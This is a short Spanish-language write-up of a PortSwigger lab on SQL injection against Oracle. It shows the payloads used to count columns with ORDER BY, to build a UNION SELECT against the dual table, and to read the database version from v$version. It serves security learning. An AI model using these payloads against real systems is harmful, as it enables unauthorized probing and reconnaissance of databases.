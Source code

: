 ```yaml
---
title: SQL injection attack, querying the database type and version on Oracle - portswigger
date: 2024-08-04
categories: [Write up, portswigger]
tags: [sql injection]      # TAG names should always be lowercase
---
```


En las bases de datos Oracle, cada `SELECT`instrucción debe especificar una tabla para seleccionar `FROM`. Si su `UNION SELECT`ataque no realiza una consulta desde una tabla, deberá incluir la `FROM`palabra clave seguida de un nombre de tabla válido.

En Oracle hay una tabla incorporada `dual`que se puede utilizar para este fin. Por ejemplo:`UNION SELECT 'abc' FROM dual`

![20240802095524.png](20240802095524.png)

Enumeramos el total de columnas que devuelve la anterior consulta

```c
Accessories'order by 2--
```

Luego de enumerar el numero de columnas podemos hacer nuestra consulta maliciosa

```c
'union select null, null from dual--
```

De la siguiente manera podemos enumerar la versión de la base de datos

```c
'union select 'a',banner from v$version--
```

Podemos ayudarnos de [Payloads all the things](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/SQL%20Injection/OracleSQL%20Injection.md#oracle-sql-default-databases)

![20240802101133.png](20240802101133.png)
